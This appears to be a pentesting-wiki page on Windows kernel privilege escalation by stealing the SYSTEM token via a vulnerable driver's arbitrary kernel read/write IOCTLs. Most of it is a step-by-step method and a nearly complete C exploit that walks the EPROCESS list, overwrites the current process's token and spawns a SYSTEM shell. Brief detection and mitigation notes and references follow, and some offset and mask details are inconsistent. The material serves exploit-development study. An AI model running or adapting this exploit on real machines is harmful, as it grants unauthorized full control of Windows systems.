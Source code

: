# Windows kernel EoP: Token stealing with arbitrary kernel R/W

## Overview

If a vulnerable driver exposes an IOCTL that gives an attacker arbitrary kernel read and/or write primitives, elevating to NT AUTHORITY\SYSTEM can often be achieved by stealing a SYSTEM access token. The technique copies the Token pointer from a SYSTEM process’ EPROCESS into the current process’ EPROCESS.

Why it works:
- Each process has an EPROCESS structure that contains (among other fields) a Token (actually an EX_FAST_REF to a token object).
- The SYSTEM process (PID 4) holds a token with all privileges enabled.
- Replacing the current process’ EPROCESS.Token with the SYSTEM token pointer makes the current process run as SYSTEM immediately.

> Offsets in EPROCESS vary across Windows versions. Determine them dynamically (symbols) or use version-specific constants. Also remember that EPROCESS.Token is an EX_FAST_REF (low 3 bits are reference count flags).

## High-level steps

1) Locate ntoskrnl.exe base and resolve the address of PsInitialSystemProcess.
   - From user mode, use NtQuerySystemInformation(SystemModuleInformation) or EnumDeviceDrivers to get loaded driver bases.
   - Add the offset of PsInitialSystemProcess (from symbols/reversing) to the kernel base to get its address.
2) Read the pointer at PsInitialSystemProcess → this is a kernel pointer to SYSTEM’s EPROCESS.
3) From SYSTEM EPROCESS, read UniqueProcessId and ActiveProcessLinks offsets to traverse the doubly linked list of EPROCESS structures (ActiveProcessLinks.Flink/Blink) until you find the EPROCESS whose UniqueProcessId equals GetCurrentProcessId(). Keep both:
   - EPROCESS_SYSTEM (for SYSTEM)
   - EPROCESS_SELF (for the current process)
4) Read SYSTEM token value: Token_SYS = *(EPROCESS_SYSTEM + TokenOffset).
   - Mask out the low 3 bits: Token_SYS_masked = Token_SYS & ~0xF (commonly ~0xF or ~0x7 depending on build; on x64 the low 3 bits are used — 0xFFFFFFFFFFFFFFF8 mask).
5) Option A (common): Preserve the low 3 bits from your current token and splice them onto SYSTEM’s pointer to keep the embedded ref count consistent.
   - Token_ME = *(EPROCESS_SELF + TokenOffset)
   - Token_NEW = (Token_SYS_masked | (Token_ME & 0x7))
6) Write Token_NEW back into (EPROCESS_SELF + TokenOffset) using your kernel write primitive.
7) Your current process is now SYSTEM. Optionally spawn a new cmd.exe or powershell.exe to confirm.

## Pseudocode

Below is a skeleton that only uses two IOCTLs from a vulnerable driver, one for 8-byte kernel read and one for 8-byte kernel write. Replace with your driver’s interface.

```c
#include <Windows.h>
#include <Psapi.h>
#include <stdint.h>

// Device + IOCTLs are driver-specific
#define DEV_PATH   "\\\\.\\VulnDrv"
#define IOCTL_KREAD  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_KWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Version-specific (examples only – resolve per build!)
static const uint32_t Off_EPROCESS_UniquePid    = 0x448; // varies
static const uint32_t Off_EPROCESS_Token        = 0x4b8; // varies
static const uint32_t Off_EPROCESS_ActiveLinks  = 0x448 + 0x8; // often UniquePid+8, varies

BOOL kread_qword(HANDLE h, uint64_t kaddr, uint64_t *out) {
    struct { uint64_t addr; } in; struct { uint64_t val; } outb; DWORD ret;
    in.addr = kaddr; return DeviceIoControl(h, IOCTL_KREAD, &in, sizeof(in), &outb, sizeof(outb), &ret, NULL) && (*out = outb.val, TRUE);
}
BOOL kwrite_qword(HANDLE h, uint64_t kaddr, uint64_t val) {
    struct { uint64_t addr, val; } in; DWORD ret;
    in.addr = kaddr; in.val = val; return DeviceIoControl(h, IOCTL_KWRITE, &in, sizeof(in), NULL, 0, &ret, NULL);
}

// Get ntoskrnl base (one option)
uint64_t get_nt_base(void) {
    LPVOID drivers[1024]; DWORD cbNeeded;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded >= sizeof(LPVOID)) {
        return (uint64_t)drivers[0]; // first is typically ntoskrnl
    }
    return 0;
}

int main(void) {
    HANDLE h = CreateFileA(DEV_PATH, GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (h == INVALID_HANDLE_VALUE) return 1;

    // 1) Resolve PsInitialSystemProcess
    uint64_t nt = get_nt_base();
    uint64_t PsInitialSystemProcess = nt + /*offset of symbol*/ 0xDEADBEEF; // resolve per build

    // 2) Read SYSTEM EPROCESS
    uint64_t EPROC_SYS; kread_qword(h, PsInitialSystemProcess, &EPROC_SYS);

    // 3) Walk ActiveProcessLinks to find current EPROCESS
    DWORD myPid = GetCurrentProcessId();
    uint64_t cur = EPROC_SYS; // list is circular
    uint64_t EPROC_ME = 0;
    do {
        uint64_t pid; kread_qword(h, cur + Off_EPROCESS_UniquePid, &pid);
        if ((DWORD)pid == myPid) { EPROC_ME = cur; break; }
        uint64_t flink; kread_qword(h, cur + Off_EPROCESS_ActiveLinks, &flink);
        cur = flink - Off_EPROCESS_ActiveLinks; // CONTAINING_RECORD
    } while (cur != EPROC_SYS);

    // 4) Read tokens
    uint64_t tok_sys, tok_me;
    kread_qword(h, EPROC_SYS + Off_EPROCESS_Token, &tok_sys);
    kread_qword(h, EPROC_ME  + Off_EPROCESS_Token, &tok_me);

    // 5) Mask EX_FAST_REF low bits and splice refcount bits
    uint64_t tok_sys_mask = tok_sys & ~0xF; // or ~0x7 on some builds
    uint64_t tok_new = tok_sys_mask | (tok_me & 0x7);

    // 6) Write back
    kwrite_qword(h, EPROC_ME + Off_EPROCESS_Token, tok_new);

    // 7) We are SYSTEM now
    system("cmd.exe");
    return 0;
}
```

Notes:
- Offsets: Use WinDbg’s `dt nt!_EPROCESS` with the target’s PDBs, or a runtime symbol loader, to get correct offsets. Do not hardcode blindly.
- Mask: On x64 the token is an EX_FAST_REF; low 3 bits are reference count bits. Keeping the original low bits from your token avoids immediate refcount inconsistencies.
- Stability: Prefer elevating the current process; if you elevate a short-lived helper you may lose SYSTEM when it exits.

## Detection & mitigation
- Loading unsigned or untrusted third‑party drivers that expose powerful IOCTLs is the root cause.
- Kernel Driver Blocklist (HVCI/CI), DeviceGuard, and Attack Surface Reduction rules can prevent vulnerable drivers from loading.
- EDR can watch for suspicious IOCTL sequences that implement arbitrary read/write and for token swaps.

## References
- [HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE) and kernel token theft](https://0xdf.gitlab.io/2025/08/26/htb-reaper.html)
- [FuzzySecurity – Windows Kernel ExploitDev (token stealing examples)](https://www.fuzzysecurity.com/tutorials/expDev/17.html)

